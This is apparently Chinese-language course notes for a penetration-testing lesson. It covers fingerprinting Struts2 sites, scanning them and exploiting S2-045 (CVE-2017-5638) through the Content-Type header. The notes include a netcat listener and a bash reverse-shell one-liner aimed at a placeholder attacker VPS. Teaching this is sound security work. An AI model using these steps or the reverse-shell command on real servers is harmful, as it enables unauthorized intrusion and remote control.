# Struts2框架漏洞利用：P46：7_Struts2框架识别与利用




在本节课中，我们将要学习如何识别使用了Struts2框架的网站，并利用其存在的漏洞进行命令执行。课程将分为两个主要部分：框架识别方法和漏洞利用实践。

## 框架识别方法 🕵️



上一节我们介绍了Struts2框架的基本概念，本节中我们来看看如何识别一个网站是否使用了该框架。识别Struts2框架主要有两种方法。



### 方法一：通过URL后缀判断



第一种方法是通过观察网页的URL后缀来进行判断。以下是常见的Struts2框架URL后缀：



*   `.do`
*   `.action`



当我们在浏览或访问网站时，如果看到以上述后缀结尾的URL，就可以初步判断该网站可能使用了Struts2框架进行设计。发现此类后缀后，可以尝试测试其是否存在Struts2相关漏洞。





### 方法二：通过开发模式页面判断



第二种方法是尝试访问其Web开发控制台页面。`/web-console/` 页面是Struts2官方为开发人员提供的调试功能，仅在开发模式下启用。

判断方法如下：
访问目标网站，在其URL后尝试拼接 `/web-console/` 路径。例如：`http://target.com/web-console/`。如果该页面存在，则可以确定网站使用了Struts2框架，并且开启了开发者模式（`devMode`）。



需要注意的是，此方法成功的前提是目标服务器配置了 `devMode=true`。



## 漏洞扫描与利用 ⚔️

在识别出目标使用了Struts2框架后，下一步就是对其进行漏洞扫描。

### 使用工具进行漏洞扫描

这里介绍使用一款集成了Struts2多个版本漏洞检测的工具进行扫描。运行该工具，将目标URL输入进去，即可开始验证漏洞。

```
# 示例命令结构（工具名称可能不同）
struts2-scan -u http://target.com/
```

扫描完成后，工具会列出目标可能存在的漏洞编号，例如S2-045。

### S2-045漏洞分析



上一节我们介绍了如何扫描漏洞，本节中我们来看看一个具体漏洞的利用。以S2-045漏洞为例，其CVE编号为CVE-2017-5638。

**影响版本**：
*   Struts 2.3.5 - 2.3.31
*   Struts 2.5 - 2.5.10

**漏洞原理**：
当网站使用基于Jakarta插件处理文件上传功能时，恶意用户可以通过修改HTTP请求头中的 `Content-Type` 字段值来触发该漏洞，进而远程执行系统命令。



### 漏洞利用实践



漏洞利用通常分为两步：首先执行系统命令，然后尝试反弹Shell以获取更持久的控制权。



#### 第一步：执行系统命令



1.  开启Burp Suite代理，并拦截浏览器流量。
2.  访问目标网站的文件上传功能，随意选择一个文件（如 `test.jpg`）进行上传。
3.  在Burp Suite中拦截到上传数据包后，将其发送到Repeater模块。
4.  在Repeater中，找到 `Content-Type` 字段，将其替换为包含命令执行Payload的字符串。Payload可以在网络安全社区或文章中搜索获得，例如执行 `whoami` 命令的Payload。
5.  发送修改后的数据包，响应中会返回命令执行的结果（例如 `root`）。



#### 第二步：反弹Shell



单纯执行命令有时无法满足渗透测试需求，我们通常需要获取一个交互式的Shell会话，以便进行内网渗透等操作。

**反弹Shell概念**：
反弹Shell是指控制端监听某个TCP/UDP端口，被控端主动向控制端的该端口发起连接，并将自己的命令行输入输出转到控制端。




**为何需要反弹Shell**：
*   **防火墙限制**：目标服务器可能只开放了少数端口（如80、443），正向连接会被防火墙阻止。
*   **端口冲突**：目标服务器上所需端口可能已被占用。
*   **NAT/内网环境**：目标处于内网，没有公网IP，攻击者无法直接连接。

**正向连接 vs 反向连接**：
*   **正向连接**：攻击者主动连接目标IP和端口。例如：SSH连接、远程桌面、访问Web服务。
    *   公式：`攻击者 —连接—> 目标:端口`
*   **反向连接**：目标主动连接攻击者指定的IP和端口。
    *   公式：`目标 —连接—> 攻击者(VPS):端口`

**反弹Shell利用**：
1.  在拥有一台公网IP的服务器（VPS）上，使用Netcat等工具监听一个端口。
    ```
    # 在VPS上执行
    nc -lvnp 4444
    ```
2.  在之前Struts2漏洞执行命令的地方，将Payload替换为反弹Shell的命令。该命令会让目标服务器连接到你的VPS的4444端口。
    *   Bash反弹Shell示例：`bash -i >& /dev/tcp/[你的VPS_IP]/4444 0>&1`
3.  执行Payload后，如果成功，你将在VPS的Netcat监听窗口中获得目标服务器的一个Shell会话。



## 课程总结 📚

本节课中我们一起学习了Struts2框架的识别与漏洞利用。





首先，我们掌握了两种识别Struts2框架的方法：通过观察特定的URL后缀（`.do`, `.action`）以及尝试访问开发调试页面（`/web-console/`）。





接着，我们了解了如何对识别出的目标进行漏洞扫描，并深入分析了S2-045远程代码执行漏洞的原理和影响范围。



最后，我们通过实践演练了漏洞利用的两个关键步骤：在目标服务器上执行系统命令，以及通过构造反弹Shell获取交互式控制权限，并解释了反向连接在穿透防火墙和内网环境中的重要性。





理解这些基础步骤是进行Web渗透测试和安全研究的重要环节。